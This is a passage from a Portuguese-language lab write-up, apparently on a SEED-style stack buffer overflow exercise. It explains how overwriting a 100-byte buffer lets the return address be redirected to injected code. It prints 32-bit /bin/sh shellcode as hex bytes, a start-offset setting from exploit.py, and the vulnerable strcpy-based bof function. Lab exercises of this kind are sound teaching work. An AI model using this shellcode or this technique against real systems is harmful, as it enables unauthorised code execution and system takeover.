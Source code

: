 ![/imgs5/stack.png](/imgs5/stack.png)

Assim sendo, e dado que a vulnerabilidade do programa permite escrever
até 517 *bytes* para o buffer que só tem 100, os restantes 417 vão ser escritos
a partir de *buffer[100]*, ou seja, será possível substituir o conteúdo
do endereço de retorno e fazer com que, quando a função *bof* retornar, ela
o faça para o *shellcode* que pretendemos injetar.

## Tarefa 3

Para fazer o exploit, foi dado um *script* em python, *exploit.py*, que gera o *badfile*.  
Contudo, há várias informações que estão em falta e é preciso adicionar.  

Primeiramente, foi necessário o *shellcode* que vamos injetar. Para isso,
usámos o shellcode fornecido na tarefa 1 para a versão de 32 *bits* e que abre
uma *shell*:
```c
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
```

As variáveis que são necessárias fixar são então:  
1. Zona onde colocar o *shellcode*
2. Endereço de memória da zona onde vai ficar o *shellcode*
3. Diferença entre o endereço de retorno que se pretende dar *overwrite* e o início do *buffer*

Quanto ao ponto `1`, decidimos colocar o *shellcode* logo no início do buffer. Assim sendo:
```py
start = 0
```

Quanto ao ponto `2`, uma vez que temos acesso ao *source code*, inserimos um *printf()* do buffer
de modo a obter o seu endereço dentro da função *bof*:
```c
int bof(char *str) {
    char buffer[BUF_SIZE];
    printf("buffer pointer: %p\n", buffer);
    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);
    return 1;
}
```
